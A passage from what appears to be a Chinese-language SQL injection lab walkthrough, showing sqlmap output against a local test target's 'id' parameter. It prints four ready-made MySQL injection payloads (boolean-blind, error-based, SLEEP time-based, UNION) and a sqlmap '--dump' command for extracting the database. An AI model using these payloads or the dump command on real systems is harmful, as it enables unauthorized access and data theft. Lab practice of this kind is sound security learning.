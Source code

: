 接下来我们就获得我们需要的信息了，数据库版本什么的。我把它贴出来吧。
```txt
sqlmap identified the following injection point(s) with a total of 149 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: id=6666666' OR NOT 1144=1144#&Submit=Submit

    Type: error-based
    Title: MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)
    Payload: id=6666666' OR ROW(6268,9799)>(SELECT COUNT(*),CONCAT(0x7162786b71,(SELECT (ELT(6268=6268,1))),0x716a767071,FLOOR(RAND(0)*2))x FROM (SELECT 9569 UNION SELECT 7660 UNION SELECT 7717 UNION SELECT 8645)a GROUP BY x)-- dPXL&Submit=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=6666666' AND (SELECT 4811 FROM (SELECT(SLEEP(5)))hDuM)-- SMOw&Submit=Submit

    Type: UNION query
    Title: MySQL UNION query (NULL) - 2 columns
    Payload: id=6666666' UNION ALL SELECT NULL,CONCAT(0x7162786b71,0x794f4b67535851624375466379624550476a6243584e4b754d7250524e524d7a6c70587370704877,0x716a767071)#&Submit=Submit
---
[13:19:30] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 4.1
[13:19:30] [INFO] fetched data logged to text files under '/home/weepingdogel/.sqlmap/output/192.168.0.105'
```

接下来我们就要查看数据库里面的内容了，由于原因，我就不贴出逐级查看的代码了，我直接dump

```bash
$ sqlmap -r "~/get.txt" --dump
```

![](/img/截图_2019-11-03_13-26-48.png)
